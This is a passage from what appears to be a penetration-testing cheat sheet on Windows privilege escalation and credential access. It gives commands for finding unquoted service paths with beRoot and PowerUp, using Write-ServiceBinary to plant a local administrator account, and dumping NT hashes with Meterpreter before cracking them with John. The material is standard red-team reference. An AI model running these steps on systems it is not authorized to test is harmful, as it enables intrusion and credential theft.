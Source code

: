 ```bash
# enter the name of an entity in the search bar (top-left) 
# click the "Pathfinding" icon
# enter the name of a Domain Admins group and click "Find Path"
# click "Change Layout" (right-side)
# review path to privesc 
```

## Unquoted Service Paths
### beRoot
```bash
beRoot.exe # identify privesc options
# look for "[!] Path containing spaces without quotes"
```

### PowerUp
The default exploit used by PowerUp's "Write-ServiceBinary" function creates a local administrator. Use the `-Command` to specify a different exploit. If the unquoted path of your target service is `C:\Program Files\Vuln Server\VulnServer.exe`, the string you would use with `Write-ServiceBinary` is `C:\Program Files\Vuln.exe`. 
```bash
# target Terminal 1:
Import-Module .\PowerUp.ps1
Invoke-AllChecks
# look for "[*] Checking for unquoted service paths"
# pick vulnerable service and copy/paste the string in its "AbuseFunction" field
Write-ServiceBinary -Name "Vuln Server" -Path "C:\Program Files\Vuln.exe"
# check your exploit settings and then get the target to restart (e.g., shutdown /r /t 0)
# login to the target using "john" and "Password123!"
```


# Credential Access

## NTLMv1
SAM and NTDS.dit files contain unsalted NT hashes and are used in NTLMv1 challenge/responses. These hashes can be cracked or used in Pass-the-Hash attacks.

### Metasploit, MSFVenom, Meterpreter, and John
```bash
# setup a handler using Metasploit
# create a Meterpreter-based payload using MSFVenom
# get the target to download and execute the payload
# configure and run the post/windows/gather/hashdump exploit in Metasploit
vim hash.txt # save hash dump to a file
john --format=nt hash.txt # crack the hash
john --format=nt --show hash.txt      # show the password
```

## NTLMv2
NTLMv2 challenge/responses cannot. 
